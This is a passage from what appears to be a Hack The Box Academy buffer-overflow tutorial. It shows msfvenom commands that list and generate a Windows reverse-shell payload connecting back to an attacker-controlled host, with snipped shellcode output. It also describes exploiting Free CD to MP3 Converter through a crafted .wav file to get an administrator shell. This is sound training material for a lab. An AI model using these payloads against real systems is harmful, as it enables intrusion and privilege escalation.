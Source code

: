 If we wanted to get a reverse shell, there are many `msfvenom` payloads we can use, which we can get a list of as follows:

&#x20; Jumping to Shellcode

```shell-session
root@htb[/htb]$ msfvenom -l payloads | grep windows | grep reverse

...SNIP...
    windows/shell/reverse_tcp                           Spawn a piped command shell (staged). Connect back to the attacker
    windows/shell/reverse_tcp_allports                  Spawn a piped command shell (staged). Try to connect back to the attacker, on all possible ports (1-65535, slowly)
    windows/shell/reverse_tcp_dns                       Spawn a piped command shell (staged). Connect back to the attacker
    windows/shell/reverse_tcp_rc4                       Spawn a piped command shell (staged). Connect back to the attacker
    windows/shell/reverse_tcp_rc4_dns                   Spawn a piped command shell (staged). Connect back to the attacker
    windows/shell/reverse_tcp_uuid                      Spawn a piped command shell (staged). Connect back to the attacker with UUID Support
    windows/shell/reverse_udp                           Spawn a piped command shell (staged). Connect back to the attacker with UUID Support
    windows/shell_reverse_tcp                           Connect back to attacker and spawn a command shell
...SNIP...
```

We can use the `windows/shell_reverse_tcp` payload as follows:

&#x20; Jumping to Shellcode

```shell-session
root@htb[/htb]$ msfvenom -p 'windows/shell_reverse_tcp' LHOST=OUR_IP LPORT=OUR_LISTENING_PORT -f 'python'

...SNIP...
buf =  b""
buf += b"\xd9\xc8\xb8\x7c\x9f\x8c\x72\xd9\x74\x24\xf4\x5d\x33"
...SNIP...
```

We can replace the `buf` shellcode in our exploit with either of these and test it. Let's assume we have access to a machine where we have the privilege to run this program as an administrator. We will write the shellcode for local privilege escalation in our exploit, generate our `exploit.wav` file, and load it into the program:

![CMD Admin](https://academy.hackthebox.com/storage/modules/89/win32bof\_cmd\_admin.jpg)

As we can see, this time, a `cmd.exe` window popped up, and we see in its title `Administrator`, which means that it is indeed running with escalated privileges, matching the user who was running `Free CD to MP3 Converter`.

Try to use the second shellcode to get a reverse shell on your Linux VM/`PwnBox`.

You can download the final exploit code from the following link. Don't forget to rename it from `.txt` to `.py`.

